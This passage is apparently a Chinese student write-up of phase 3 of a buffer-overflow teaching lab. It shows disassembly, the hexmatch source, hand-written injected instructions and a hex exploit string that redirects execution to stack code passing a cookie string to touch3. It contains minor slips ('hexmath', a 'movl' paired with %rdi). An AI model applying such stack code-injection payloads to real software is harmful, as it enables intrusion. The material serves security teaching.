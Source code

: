 ```s
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```

可以看到，`touch3`的首地址是`0x4018fa`，并且调用了`hexmath(unsigned val, char *sval)`，下面看一下`hexmath`的`C`语言表示：

```cpp
/* compare string to hex represention of unsigned value */
int hexmatch(unsigned val,char *sval){
    char cbuf[110];
    /* make position of check string unpredictable */
    char *s = cbuf+random()%100;
    sprintf(s,"%.8x",val);
    return strncmp(sval,s,9) == 0;
}
```

`hexmath`函数也创建了一定大小的缓冲区，将传入的指针指向的字符串和`cookie`进行比较，只有相等才算攻击成功。

`cookie:0x59b997fa`字符串在机器代码中以`ASCII`码的形式来表示：`35 39 62 39 39 37 66 61`

需要注意的是，如果我们将字符串存在`getbuf()`分配的栈帧空间内的话，当`getbuf()`重定向`touch3()`，然后`touch3()`会调用`hexmatch()`，新创建的栈帧可能会覆盖掉我们传入的指针参数指向的字符串，所以，我的做法是表示`cookie`的字符串放到栈为`touch3`分配栈帧以前的位置，根据栈后进先出的特点，`touch3`以后的函数是不会覆盖掉我们存放的字符串的。

接下来，我们要做的是通过`gdb`调试工具获取存放`cookie`字符串的地址，设置为重定向到`touch3`的后`9`个字节，以`\0`终止字符串。根据上一个`phase`，得到目标地址为`0x5561dca0 + 0x8 = 0x5561dca8`

构造指令如下，

```s
push $0x4018fa
movl $0x5561dca8,%rdi
retq
```

构造字符串如下，

```txt
68 fa 18 40 00 48 c7 c7 /* addr:0x5561dc78 run my code */
a8 dc 61 55 c3 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 /* addr:0x5561dca0 */
35 39 62 39 39 37 66 61 /* addr:0x5561dca8 val:str(cookie) */
```

测试，
